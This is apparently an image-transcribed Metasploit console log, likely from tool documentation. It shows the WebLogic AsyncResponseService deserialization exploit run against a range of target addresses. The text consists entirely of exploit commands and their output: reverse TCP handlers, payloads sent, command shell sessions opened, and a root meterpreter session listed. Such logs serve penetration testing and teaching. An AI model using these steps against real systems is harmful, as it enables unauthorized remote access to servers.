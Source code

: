 ```metasploit



View the full module info with the info, or info -d command.

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 192.171.84.2-3,192.171.84.5
rhosts => 192.171.84.2-3,192.171.84.5
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 192.168.56.107
lhost => 192.168.56.107
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[-] Msf::OptionValidateError The following options failed to validate: RHOSTS
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 192.171.84.2-5
rhosts => 192.171.84.2-5
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run
[*] Exploiting target 192.171.84.2

[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 3 opened (192.168.56.107:4444 -> 192.168.56.1:60640) at 2023-07-26 10:53:00 -0400
[*] Session 3 created in the background.
[*] Exploiting target 192.171.84.3
[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 4 opened (192.168.56.107:4444 -> 192.168.56.1:60630) at 2023-07-26 10:53:07 -0400
[*] Session 4 created in the background.
[*] Exploiting target 192.171.84.4
[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[-] Exploit failed: Rex::Post::Meterpreter::RequestError core_channel_open: Operation failed: 1
[*] Exploiting target 192.171.84.5
[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 5 opened (192.168.56.107:4444 -> 192.168.56.1:60574) at 2023-07-26 10:53:13 -0400
[*] Session 5 created in the background.
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
```